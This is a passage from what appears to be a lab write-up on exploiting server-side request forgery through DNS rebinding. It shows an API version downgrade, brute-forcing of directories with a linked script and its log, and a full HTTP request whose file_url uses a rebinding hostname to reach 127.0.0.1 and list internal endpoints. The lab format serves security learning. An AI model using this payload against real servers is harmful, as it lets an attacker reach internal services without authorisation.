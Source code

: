 I then decided to try another common technique: downgrading API versions from v3 to v2 and fortunately i found indicator to Vulnerable SSRF Parameter.

The Server returned A response with Status Code of `404 NOT FOUND`  cause actually there is no `secret.txt`   on the local host&#x20;

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

#### Brute Forcing Files and Directories

Seeing a glimmer of hope, I started brute forcing files and directories using a common wordlist:

[Common Wordlist](https://github.com/v0re/dirb/blob/master/wordlists/common.txt)

To streamline the brute forcing process, I wrote a Python script to automate the attempts:

{% embed url="https://github.com/h0tak88r/bug-bounty-labs/blob/main/ssrf-with-dns-rebinding-lab/poc/poc.py" %}

```sh
➜  poc git:(main) ✗ python3 poc.py                           
2024-07-27 12:09:50,638 - INFO - / -> 200
2024-07-27 12:12:07,478 - INFO - /api -> 200
```

Requesting the `/api` endpoint revealed the following directories:

```http
POST /api/v2/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Cookie: uuid_hash=<>
Content-Type: application/json

{"file_url":"http://7f000001.d83ad3ce.rbndr.us//api"}

-------------------------------------------------
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:15:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 29
/users
/status
/employees
```